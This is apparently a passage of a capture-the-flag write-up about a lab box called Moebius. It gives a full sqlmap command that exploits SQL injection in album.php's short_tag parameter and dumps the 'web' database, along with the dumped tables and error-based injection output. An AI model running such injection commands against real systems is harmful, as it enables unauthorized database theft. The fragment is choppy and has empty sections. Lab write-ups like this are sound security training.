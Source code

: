 <h3><code>web</code> database and table <code>albuns</code></h3>

```bash
:~/Moebius# sqlmap -u 'http://TargetIP/album.php?short_tag=smart' -p short_tag --risk 3 --level 5 --batch --threads 10 -D web --dump
...
Database: web
Table: images
[16 entries]
+----------------------------+
| path                       |
+----------------------------+
| /var/www/images/cat1.jpg   |
| /var/www/images/cat10.webp |
| /var/www/images/cat11.webp |
| /var/www/images/cat12.webp |
| /var/www/images/cat13.jpg  |
| /var/www/images/cat14.webp |
| /var/www/images/cat15.webp |
| /var/www/images/cat16.webp |
| /var/www/images/cat2.jpg   |
| /var/www/images/cat3.jpg   |
| /var/www/images/cat4.jpg   |
| /var/www/images/cat5.avif  |
| /var/www/images/cat6.avif  |
| /var/www/images/cat7.png   |
| /var/www/images/cat8.webp  |
| /var/www/images/cat9.webp  |
+----------------------------+
...
Database: web
Table: albums
[3 entries]
+----------------+-----------+--------------------------+
| name           | short_tag | description              |
+----------------+-----------+--------------------------+
| Cute cats      | cute      | Cutest cats in the world |
| Favourite cats | fav       | My favourite ones        |
| Smart cats     | smart     | So smart...              |
+----------------+-----------+--------------------------+
```

<h3>boolean-based blind testing</h3>

```bash
HTTP/1.1 200 OK
```

<h3>boolean-based blind testing</h3>

```bash
HTTP/1.1 200 OK
...
Connection failed: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'qxbqq1qxvjq1' for key 'group_key'
```
